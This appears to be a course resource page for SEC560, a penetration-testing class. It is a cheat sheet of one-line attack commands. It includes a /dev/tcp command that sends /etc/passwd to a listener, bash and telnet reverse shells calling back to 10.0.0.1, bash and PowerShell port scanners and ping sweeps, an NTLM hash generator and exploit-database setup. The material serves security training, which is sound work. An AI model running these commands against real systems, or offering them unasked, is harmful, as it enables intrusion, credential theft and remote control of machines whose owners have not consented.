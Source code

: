 # Resources referenced during SEC560 classes


## Day 2

### Netcat without netcat

Check for existence of similar tools:
Gnu Netcat
Ncat
Socat
Linkcat
Nc.py (sometimes called Pycat) http://atlas.r4780y.com/resources/atlasutils-2.2.5.tgz

#### /dev/tcp
File transfers:
Box 1: # nc -nlvp 4444
Box 2: $ cat /etc/passwd > /dev/tcp/10.0.0.1/4444

Reverse shell:
Box 1: # nc -nlvp 8080
Box 2: $ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

Port scanner ("Connection refused" means port is closed):
Single port:    $ echo > /dev/tcp/10.0.0.1/22
Multiple ports: $ port=1; while \[ $port –lt 1024 ]; do echo > /dev/tcp/\[IPaddr]/$port; \[ $? == 0 ] && echo $port "is open" >> /tmp/ports.txt; port=`expr $port + 1`; done


#### If /dev/tcp can't be used, try telnet
Reverse shell:
Box 1 (where you type commands):   # nc -nlvp 4444
Box 1 (where you view the output): # nc -nlvp 4445
Box 2: $ telnet 10.0.0.1 4444 | /bin/bash | telnet 10.0.0.1 4445



#### Powershell
Ping sweep:

    PS C:\> 1..255 | % {ping –n 1 10.10.10.$_ | sls ttl}
    1..255 | % {echo "10.10.10.$_"; ping -n 1 -w 100 10.10.10.$_ | select-string ttl}

Port scan:

    21..80 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.1",$_)) “Port $_ is open" } 2>$null


## Day 5


Generate NTLM hash if you know the password:

    python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'


## After class is over

Build your own SEC560 lab environment:

10.10.10.5, 10.10.10.10, and 10.10.10.20 (the DC requires an additional step to promote it to a DC):
* https://1337red.wordpress.com/building-and-attacking-an-active-directory-lab-with-powershell/


## Install searchsploit on Slingshot
    sudo git clone https://github.com/offensive-security/exploitdb.git /opt/exploitdb
    sed 's|path_array+=(.*)|path_array+=("/opt/exploitdb")|g' /opt/exploitdb/.searchsploit_rc > ~/.searchsploit_rc
    sudo ln -sf /opt/exploitdb/searchsploit /usr/local/bin/searchsploit


## Credits
* Ed Skoudis
* http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
* egre55 and mrh4sh from hackthebox.eu
* Bryce from Australia
